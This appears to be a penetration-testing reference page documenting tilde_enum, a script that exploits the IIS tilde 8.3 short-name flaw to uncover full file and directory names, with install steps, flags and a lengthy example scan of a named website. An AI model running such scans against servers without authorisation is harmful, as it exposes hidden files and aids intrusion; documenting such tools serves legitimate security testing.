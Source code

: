 ```yaml
---
title : "tilde_enum"
# pre : ' '
description : "Exploits and expands the file names found from the (IIS) tilde enumeration vuln."
date : 2022-02-07T09:55:27+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'IIS']
---
```


## tilde_enum

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (<https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/>, <http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/>, <http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf>) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at <https://github.com/irsdl/iis-shortname-scanner/tree/master/> and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the <https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt> (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

## Installation

```plain
git clone https://github.com/WebBreacher/tilde_enum
```

Find wordlists to use at [this GitHub repo](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes). Or download some handy ones below.

{{%attachments title="Wordlists" fa_icon_class="far fa-file" pattern=".*(txt)"/%}}

## Usage

```plain
tilde_enum.py [-h] [-c COOKIES] [-d DIRWORDLIST] [-f] [-p PROXY]
                     [-s SNOOZE] [-u URL] [-v] [-w WORDLIST]
                     [--no-check-certificate]
```

## Flags

```plain
Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES            cookies to be used in the request
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -p PROXY              Use a proxy host:port
  -s SNOOZE             time in seconds to sleep/wait between requests
  -u URL                URL to scan
  -v                    verbose output
  -w WORDLIST           the word list to be used for guessing files
  --no-check-certificate
                        don't verify the SSL certificate
```

## Examples

```plain
$  python2 tilde_enum.py -u http://offsec.nl -w raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://offsec.nl/mhxWjUz25u.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://offsec.nl
[-] URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://offsec.nl/parameter.xml
[*]  Found one! (Size 1754) http://offsec.nl/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://offsec.nl/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://offsec.nl/documentation/
[*]  Found one! (Size 1433) http://offsec.nl/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://offsec.nl/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://offsec.nl/documentation/advertising.html
[*]  Found one! (Size 1433) http://offsec.nl/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://offsec.nl/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://offsec.nl/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://offsec.nl/_vti_inf.html  - Size 1754
[*]      http://offsec.nl/documentation/advertising.html  - Size 227
[*]      http://offsec.nl/documentation/default.aspx  - Size 1433
[*]      http://offsec.nl/javascript/321.xlsx  - Size 227
[*]      http://offsec.nl/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://offsec.nl/documentation/advert~1.htm
[*]      http://offsec.nl/documentation/defaul~1.asp
[*]      http://offsec.nl/765432~1.htm
[*]      http://offsec.nl/_vti_i~1.htm
[*]      http://offsec.nl/parame~1.xml
[*]      http://offsec.nl/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://offsec.nl/documentation/  - Size 1433
[*]      http://offsec.nl/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://offsec.nl/_vti_s~1/
[?]      http://offsec.nl/aspnet~1/
[?]      http://offsec.nl/copyof~1/
[?]      http://offsec.nl/docume~1/
[?]      http://offsec.nl/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://offsec.nl/aspnet_client/  - Size 218
```

## URL List

- [Github.com - tilde_enum](https://github.com/WebBreacher/tilde_enum)
- [Github.com - Wordlists to use](https://github.com/tennc/fuzzdb/tree/master/Discovery/PredictableRes)
